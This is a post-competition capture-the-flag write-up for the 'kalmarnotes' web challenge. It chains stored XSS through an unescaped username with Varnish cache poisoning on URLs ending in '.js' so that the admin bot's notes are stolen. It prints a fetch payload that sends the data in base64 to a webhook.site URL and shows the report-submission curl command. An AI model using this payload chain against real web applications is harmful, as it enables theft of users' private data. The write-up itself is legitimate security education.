







> Post-solve Writeup: This challenge was written up after the CTF ended.

### Initial Look

We are given a `kalmarnotes.zip`, extracted to `kalmarnotes`. It has the following directory structure:
```
/.../kalmarnotes
├── Dockerfile
├── default.vcl
├── docker-compose.yml
├── requirements.txt
├── src
│   ├── admin_bot.py
│   ├── app.py
│   ├── db.py
│   └── templates
│       ├── base.html
│       ├── index.html
│       ├── login.html
│       ├── new_note.html
│       ├── notes.html
│       ├── register.html
│       ├── view_note_long.html
│       └── view_note_short.html
└── supervisord.conf
```

Things of interest:
- `default.vcl` is using [Varnish Configuration Language](https://varnish-cache.org/docs/trunk/users-guide/vcl.html), and contains configuration for the webserver:
```
vcl 4.0;

backend default {
    .host = "127.0.0.1";
    .port = "3000";
}

sub vcl_hash {
    hash_data(req.url);
    if (req.url ~ "\.(js|css|png|gif)$") {  
        return (lookup);
    }
}

sub vcl_recv {
    if (req.url ~ "\.(js|css|png|gif)$") {
        set req.http.Cache-Control = "max-age=10";
        return (hash);
    }
}

sub vcl_backend_response {
    if (bereq.url ~ "\.(js|css|png|gif)$") {
        unset beresp.http.Vary;
        set beresp.ttl = 10s;
        set beresp.http.Cache-Control = "max-age=10";
        unset beresp.http.Pragma;
        unset beresp.http.Expires;
    }
}

sub vcl_deliver {
    if (obj.hits > 0) {
        set resp.http.X-Cache = "HIT";
    } else {
        set resp.http.X-Cache = "MISS";
    }
    set resp.http.X-Cache-Hits = obj.hits;
}
```

This is defining some `Cache-Control` rules, saying the page will be cached for a `max-age` of `10` if the URL end's with a `.js`, `.css`, `.png` or `.gif`.

- The `Dockerfile` defines the flag in the environment variables:
```dockerfile
FROM python:3.9-slim

WORKDIR /app


RUN apt-get update && apt-get install -y \
    libnss3 \
    libgconf-2-4 \
    libfontconfig1 \
    chromium \
    chromium-driver \
    varnish \
    supervisor 

COPY requirements.txt .
RUN pip install --no-cache-dir -r requirements.txt

COPY src/ .
COPY default.vcl /
COPY supervisord.conf /etc/supervisor/conf.d/supervisord.conf

ENV DISPLAY=:99

####### CHANGE HERE ##########
ENV ADMIN_PASSWORD=xxx
ENV FLAG=kalmar{test_flag}
ENV HOSTNAME=localhost

ENV CHROME_OPTIONS="--headless --disable-gpu --no-sandbox --disable-dev-shm-usage"

EXPOSE 80

# Flask app
CMD ["/usr/bin/supervisord"]
```

We have an admin password in `ADMIN_PASSWORD`, and the flag stored in `FLAG`. It is running Chromium with `--no-sandbox`.

We will come back to the Python webserver functionality, let's look at it visually first!



We are given a main page, has a `Register` and a `Login`.

We then register and login to our account, `sealldev`, with password `sealldev` (very secure).





Once logged in, we have a `New Note` and a `Logout` button with an empty `All Notes` section:


Let's make a new note, then we can have a look at the internal functionality!



Selecting `Create Note`, we are redirected to the home page again with our note! We can click `View short version` and get some more info.



### Reading the Python app source code

`app.py` is quite a big file but in terms of a summary:
```python
from flask import Flask, render_template, request, jsonify, session, redirect
from admin_bot import AdminBot
from db import Database
import hashlib
from functools import wraps
import os
...
```

The application is running with `Flask` for the webserver, and importing functionality from the `db.py` and `admin_bot.py` files.

```python
app.config.update(
    SESSION_COOKIE_SAMESITE='Strict',
    SESSION_COOKIE_HTTPONLY=True
)
```

The `session` cookie is defined with `HttpOnly` meaning JavaScript cannot access the cookie, and `SameSite` being set to `Strict` restricts CSRF vulnerabilities.

Now for an endpoint speedrun!
- `/` returns the `index.html` template, unless you are authorised then it returns `notes.html`.
- `/login` returns the `login.html` template.
- `/register` returns the `register.html` template.
- `/logout` removes the `session` cookie's `user_id` then returns the `index.html` template.

**Authorised Endpoints**
- `/note/new` returns the `new_note.html` template.
- `/note/<int:note_id>/<string:view_type>` is interesting!
```python
@app.route('/note/<int:note_id>/<string:view_type>')
@authenticated_only
def view_note(note_id, view_type):
    note = db.get_note_by_id(note_id, session.get('user_id'))
    if not note:
        return redirect('/')
    if view_type == "short":
        return render_template('view_note_short.html',note=note)
    elif view_type == "long":
        return render_template('view_note_long.html',note=note,username=db.get_username_from_id(session.get('user_id')))
    # I guess we just return the long view as default
    else:
        return render_template('view_note_long.html',note=note,username=db.get_username_from_id(session.get('user_id')))
```

The functionality is that a viewed note has 2 main templates it uses: `short` and `long` which use different templates. The default view (when any other `view_type` is in the input) is the `long` view, `short` is only displayed when `short` is used. This is the function that renders our notes!

- `/notes` returns the `notes.html` template.

**API Endpoints**
```python
@app.route('/api/login', methods=['POST'])
def api_login():
    data = request.get_json()
    username = data.get('username')
    password = data.get('password')
    password_hashed = hashlib.sha256(password.encode()).hexdigest()
    user = db.authenticate_user(username, password_hashed)
    if user:
        session['user_id'] = user.get('id')
        return jsonify({'message': 'Login successful'})
    else:
        return jsonify({'error': 'Invalid credentials'}), 401
```
- `/api/login` takes a `username` and `password` from a `POST` request and returns a `user_id` in the `session` cookie.
- `/api/logout` just removes the `user_id` from the `session` cookie.
```python
@app.route('/api/register', methods=['POST'])
def api_create_user():
    data = request.get_json()
    username = data.get('username')
    password = data.get('password')
    password_hashed = hashlib.sha256(password.encode()).hexdigest()
    
    user = db.create_new_user(username, password_hashed)
    if user:
        return jsonify({'message': 'User created successfully'})
    else:
        return jsonify({'error': 'User creation failed'}), 400
```
- `/api/register` takes a `username` and a `password` from a `POST` request and returns either a success or fail response if the user was created in the `db`.
```python
@app.route('/api/note/new', methods=['POST'])
@authenticated_only
def api_create_note():
    data = request.get_json()
    title = data.get('title')
    content = data.get('content')
    
    note = db.create_new_note(title, content, session.get('user_id'))
    if note:
        return jsonify({'message': 'Note created successfully'})
    else:
        return jsonify({'error': 'Note creation failed'}), 400
```
- `/api/note/new` takes a `title` and `content` from a `POST` request and returns either a success or fail response if the note was created in the `db`.
```python
@app.route('/api/note/<int:note_id>', methods=['DELETE'])
@authenticated_only
def api_delete_note(note_id):
    success = db.delete_note_by_id(note_id, session.get('user_id'))
    if success:
        return jsonify({'message': 'Note deleted successfully'})
    else:
        return jsonify({'error': 'Note deletion failed'}), 400

@app.route('/api/note/<int:note_id>', methods=['GET'])
@authenticated_only
def api_get_note(note_id):
    note = db.get_note_by_id(note_id, session.get('user_id'))
    if note:
        return jsonify({'note': note})
    else:
        return jsonify({'error': 'Note not found'}), 404
```
- `/api/note/<ing:note_id>` has a `DELETE` function to remove the note from the `db`, there is also a `GET` to retrieve the data for a note.
```python
@app.route('/api/notes', methods=['GET'])
@authenticated_only
def api_get_notes():
    notes = db.get_all_notes_for_user(session.get('user_id'))
    return jsonify({'notes': notes})
```
- `/api/notes` returns all the notes for a user.
- `/api/report` sends a URL to the administrator bot to visit.

Phew!

Now let's gloss over how the `db.py` and `admin_bot.py` work.

`admin_bot.py` is fairly simple, it initialises a Chromium `selenium` bot, authenticates as the admin user, then visits the specified URL.

`db.py` gets a bit more complicated and controls the database.

The database is initialised as follows:
```python
...
with closing(self.connect_db()) as db:
    with db as conn:
        conn.execute('''
            CREATE TABLE IF NOT EXISTS notes (
                id INTEGER PRIMARY KEY AUTOINCREMENT,
                user_id INTEGER NOT NULL,
                title TEXT NOT NULL,
                content TEXT NOT NULL
            )
        ''')
        conn.execute('''
            CREATE TABLE IF NOT EXISTS users (
                id INTEGER PRIMARY KEY AUTOINCREMENT,
                username TEXT UNIQUE NOT NULL,
                password TEXT NOT NULL
                )
        ''')
        
        admin_pass = hashlib.sha256(os.getenv('ADMIN_PASSWORD', 'kalmar').encode()).hexdigest()
        flag = os.getenv('FLAG', 'default_flag')
        conn.execute('''
            INSERT OR IGNORE INTO users (username, password)
            VALUES (?, ?)
        ''', ('admin', admin_pass))
        
        random_large_id = random.randint(1, 100000000000)
        conn.execute('''
            INSERT OR IGNORE INTO notes (id, user_id, title, content)
            VALUES (?, 1, 'Flag', ?)
        ''', (random_large_id, flag))

        random_large_id = random.randint(100000000000, 200000000000)
        conn.execute('''
            INSERT OR IGNORE INTO notes (id, user_id, title, content)
            VALUES (?, 1, 'Note', ?)
        ''', (random_large_id, "This is not the flag you are looking for"))

        conn.execute('''
            UPDATE sqlite_sequence SET seq = 0 WHERE name = 'notes'
        ''')
...
```
Simply:
- Initialises a `notes` table with `id`, `user_id`, `title` and `content`.
- Initialises a `users` table with `id`, `username` and `password`.
- Sets the `admin_pass` and inserts `admin` into `users`.
- Creates a random `note_id` between 1 and 100000000000 to contain the flag.
- Creates a random `note_id` between 100000000000 and 200000000000 to contain a taunting message.
- Resets the auto-incrementing sequence for `notes` so it doesn't increment from the previously set notes.

There is a lot of backend functionality for this, but the important functions will be outlined here:
```python
def create_new_note(self, title, content, user_id):
    with closing(self.connect_db()) as db:
        with db as conn:
            cursor = conn.execute('''
                INSERT INTO notes (title, content, user_id)
                VALUES (?, ?, ?)
            ''', (title, content, user_id))
            return cursor.lastrowid
```
A note is created like this, and all of it is properly inserted before saving with no filtering.

But, when we retrieve a note:
```python
def get_note_by_id(self, note_id, user_id):
    with closing(self.connect_db()) as db:
        cursor = db.execute('''
            SELECT id, title, content, user_id FROM notes WHERE id = ?
        ''', (note_id,))
        row = cursor.fetchone()
        if row and row[3] == user_id:
            note = {'id': row[0], 'title': row[1], 'content': row[2], 'user_id': row[3]}
            return self.sanitize_dict(note)
        return None
```

The values are filtered through `sanitize_dict` before reaching the template.

```python
from markupsafe import escape
...
def sanitize_dict(self,data):
    if isinstance(data, dict):
        return {key: self.sanitize_dict(value) for key, value in data.items()}
    elif isinstance(data, list):
        return [self.sanitize_dict(item) for item in data]
    elif isinstance(data, str):
        return escape(data)
    else:
        return data
```

This function is solid, and properly `escape`'s all the data using `markupsafe`.

### So, where is the vuln?

The key missing puzzle piece goes *all* the way back to how the notes are rendered.
```python
@app.route('/note/<int:note_id>/<string:view_type>')
@authenticated_only
def view_note(note_id, view_type):
    note = db.get_note_by_id(note_id, session.get('user_id'))
    if not note:
        return redirect('/')
    if view_type == "short":
        return render_template('view_note_short.html',note=note)
    elif view_type == "long":
        return render_template('view_note_long.html',note=note,username=db.get_username_from_id(session.get('user_id')))
    # I guess we just return the long view as default
    else:
        return render_template('view_note_long.html',note=note,username=db.get_username_from_id(session.get('user_id')))
```

The difference between these, is that `long` view uses the username somewhere! Let's look at the template:
```html
...
    <h2 class="mb-0">{{ note.title | safe }}</h2>
    <small>Written by {{ username | safe }}</small>
</div>
<div class="card-body"></div>
    <div class="mb-3" style="white-space: pre-wrap; font-size: 1.1rem;">
        {{ note.content | safe }}
    </div>
    <div class="mt-4">
        <button class="btn btn-danger" onclick="deleteNote({{ note.id | safe }})">Delete Note</button>
...
```

This snippet is the main bit of importance, all the variables are imported with `safe`. This means they are trusted inputs and **won't be escaped** by the templating engine. We know from looking at `db.py` that the notes data is escaped safely with `sanitize_dict`. 

But how is that username retrieved?

```python
def get_username_from_id(self, user_id):
    with closing(self.connect_db()) as db:
        cursor = db.execute('''
            SELECT username FROM users WHERE id = ?
        ''', (user_id,))
        row = cursor.fetchone()
        if row:
            return row[0]
        return None
```

**No filtering**!, let's make sure it isn't filtered on registration:
```python
def create_new_user(self, username, password):
    try:
        with closing(self.connect_db()) as db:
            with db as conn:
                cursor = conn.execute('''
                    INSERT INTO users (username, password)
                    VALUES (?, ?)
                ''', (username, password))
                return {'id': cursor.lastrowid, 'username': username}
    except Exception as e:
        print(f"Error creating user: {e}")
        return None
```

Nope, nothing!

So, if we use the `long` view we can get XSS!

### XSS (finally)

Let's make a new user called `<script>alert(1)</script>`, and make a note!

We get our note `/note/152459544324/short`, lets change that to `long`.



Wooooooooooooooo

But, we are celebrating too early... Other users can't access our notes!

```python
def get_note_by_id(self, note_id, user_id):
    with closing(self.connect_db()) as db:
        cursor = db.execute('''
            SELECT id, title, content, user_id FROM notes WHERE id = ?
        ''', (note_id,))
        row = cursor.fetchone()
        if row and row[3] == user_id:
            note = {'id': row[0], 'title': row[1], 'content': row[2], 'user_id': row[3]}
            return self.sanitize_dict(note)
        return None
```
It gets the note based on the `user_id`, so we can't just send that URL as it will be inaccessible, or will it?

### Caching
> From here on, this writeup was written after the CTF concluded

If you remember from at the start of the writeup, the Varnish configuration outlined that there will be `max-age=10` caching for URLs ending in `.js`, `.css`, `.png` or `.gif`. 
```
sub vcl_backend_response {
    if (bereq.url ~ "\.(js|css|png|gif)$") {
        unset beresp.http.Vary;
        set beresp.ttl = 10s;
        set beresp.http.Cache-Control = "max-age=10";
        unset beresp.http.Pragma;
        unset beresp.http.Expires;
    }
}
```

Now as the `long` view is the default for any input set in the `view_type` portion of the URL, could we:
- Make an XSS payload to retrieve the contents of `/api/notes` for the current user and exfiltrate it to a webhook.site URL.
- Make a user with that payload as their username and create a note.
- Visit the note with the `view_type` rendered as `long`, making sure the endpoint ends in `.js`, `.css`, `.png` or `.gif`, such as `/note/<id>/long.js` or `/note/<id>/long?example.png` and setup cache poisoning.
- Send the URL to the bot to retrieve the poisoned cache and trigger the payload?

### Stringing it all together
Let's create the payload in JS:
```javascript
fetch('/api/notes').then(r => r.json()).then(data => {
    const encoded = btoa(JSON.stringify(data));
    fetch('https://webhook.site/...?data=' + encoded)
})
```

This will retrieve the contents of `/api/notes` and send the base64 encoded data to our webhook.site instance.

We can then put that in a XSS payload, I use `img` with `onerror` and an invalid `src`:
```html
r.json()).then(data=>{const encoded=btoa(JSON.stringify(data));fetch('https://webhook.site/...?data='+encoded)})">
```

We first:
- Register a user with that payload as the username.
- Login as that user!

Now we create an example note, the content doesn't matter.

Now we take that URL: `https://.../note/166552770206/short` and change the ending to validate that caching rule and return the long view, in my case I use `https://.../note/166552770206/long.js` which caches the response for 10 seconds.

```bash
$ curl -X POST "http://localhost/api/report" -d '{"url":"http://localhost/note/166552770206/long.js"}' -H "Content-Type: application/json"
{"message":"Report submitted successfully"}
```

We then get a response on `webhook.site`:
```
https://webhook.site/a0e2745a-b625-4816-8d85-eb0a66ccc6f3?data=eyJub3RlcyI6W3siY29udGVudCI6ImthbG1hcnt0ZXN0X2ZsYWd9IiwiaWQiOjMxOTk2MDg1MzgyLCJ0aXRsZSI6IkZsYWcifSx7ImNvbnRlbnQiOiJUaGlzIGlzIG5vdCB0aGUgZmxhZyB5b3UgYXJlIGxvb2tpbmcgZm9yIiwiaWQiOjE2NjU1Mjc3MDIwNSwidGl0bGUiOiJOb3RlIn1dfQ==
```

We then decode it for the flag!
```bash
$ echo "eyJub3RlcyI6W3siY29udGVudCI6ImthbG1hcnt0ZXN0X2ZsYWd9IiwiaWQiOjMxOTk2MDg1MzgyLCJ0aXRsZSI6IkZsYWcifSx7ImNvbnRlbnQiOiJUaGlzIGlzIG5vdCB0aGUgZmxhZyB5b3UgYXJlIGxvb2tpbmcgZm9yIiwiaWQiOjE2NjU1Mjc3MDIwNSwidGl0bGUiOiJOb3RlIn1dfQ==" | base64 -d
{"notes":[{"content":"kalmar{test_flag}","id":31996085382,"title":"Flag"},{"content":"This is not the flag you are looking for","id":166552770205,"title":"Note"}]}
```

(Remote was being stubborn on the post-solve, I dunno)

Flag: `the remote instance is doodoo`